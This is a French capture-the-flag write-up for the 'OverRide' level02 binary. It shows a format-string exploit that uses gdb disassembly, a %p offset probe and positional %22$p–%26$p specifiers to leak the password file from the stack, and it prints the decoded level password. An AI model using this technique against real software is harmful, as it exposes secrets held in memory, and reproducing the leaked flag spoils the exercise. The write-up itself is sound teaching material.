 # Level 02

```
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: test
--[ Password: test
*****************************************
test does not have access!
```

Ce programme prend deux inputs.

Apres decompilation, nous constatons plusieurs choses, le fichier du pass est ouvert, puis est copie dans passwordFromFile.

Si le fichier ne peux etre lu, exit le programme.
Cette condition nous empeche de break dans gdb car faute de droits.

Puis les deux inputs sont copie respectivement dans username et password.

Une comparaison est faite entre le mot de passe du fichier et le mot de passe, et si identique ouvre un shell nais nous ne pouvons pas exploiter cette condition

Cependant le dernier printf qui affiche le nom d'utilisateur, a savoir username, est appele sans l'argument de format.

Nous allons pouvoir utiliser l'exploit format string, qui consiste a donner le format directement dans la chaine afin d'afficher des zones memoire.

Comme le contenu du fichier est copie dans une variable, nous sommes cense trouver son contenu en memoire. Cherchons dans gdb son emplacement.


Le desassemblage dans gdb etant long, seules les lignes interessantes sont gardes.
```
(gdb) disas main
Dump of assembler code for function main:
   0x0000000000400814 <+0>:     push   %rbp <=== la zone memoire ou le programme est charge est sur rbp.
   0x0000000000400815 <+1>:     mov    %rsp,%rbp
   0x0000000000400818 <+4>:     sub    $0x120,%rsp

   0x0000000000400909 <+245>:   lea    -0xa0(%rbp),%rax <== ici nous sommes juste apres l'appel de fread. le contenu du fichier est copie a rbp - 0xa0

   0x0000000000400a96 <+642>:   lea    -0x70(%rbp),%rax <== ici nous somme juste apres la comparaison du mot de passe et du contenu du fichier, on aligne le pointeur sur rbp - 0x70 car ici se trouve la variable username (username)

End of assembler dump.
```

Nous avons donc l'emplacement memoire de passwordFromFile et username.

Pour afficher la valeur avec printf, nous allons calculer l'offset du buffer de printf.

```
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: AAAA%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|
--[ Password: *****************************************
AAAA0x7fffffffe4f0|(nil)|0x7c|0x2a2a2a2a2a2a2a2a|0x2a2a2a2a2a2a2a2a|0x7fffffffe6e8|0x1f7ff9a08|0x257c70257c70257c|0x7c70257c70257c70|0x70257c70257c7025|0x257c70257c70257c|0x7c70257c70257c70|0x70257c70257c7025|0x257c70257c70257c|0x7c70257c70257c70|0x70257c70257c7025|0x257c70257c70257c|0x7c70257c70|(nil)|0x100000000|(nil)|0x756e505234376848|0x45414a3561733951|0x377a7143574e6758|0x354a35686e475873|0x48336750664b394d|0xfeff00|0x257c702541414141|0x7c70257c70257c70| does not have access!
```

41414141 se trouve a +28.

Les deux adresses sont espaces de 160(0xa0) - 112(0x70) = 48 bits.

Sachant que %p affiche 8bits nous devons divise 48 par 8 pour avoir la position du debut de la chaine.

28 - (48 / 8) = 22. Donc %22p est le debut de la chaine, le mot de passe contient 41 - 1 caracteres (0x29 - 1("\0")), 40 / 8 = 5. Nous devons affiches 5 %p.

```
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %22$p%23$p%24$p%25$p%26$p
--[ Password:
*****************************************
0x756e505234376848|0x45414a3561733951|0x377a7143574e6758|0x354a35686e475873|0x48336750664b394d does not have access!
```

Nous avons ce code ex hexadecimal, il nous faut convertir chaque bit en decimal, en enlevant d'abord les 0x et comme nous somme en endian, en commencant par la fin de chaque section.

48 68 37 34 52 50 6e 75 51 39 73 61 35 4a 41 45 58 67 4e 57 43 71 7a 37 73 58 47 6e 68 35 4a 35 4d 39 4b 66 50 67 33 48

On utilise dcode.fr pour convertir les valeurs (codage unicode) et nous trouvons : Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H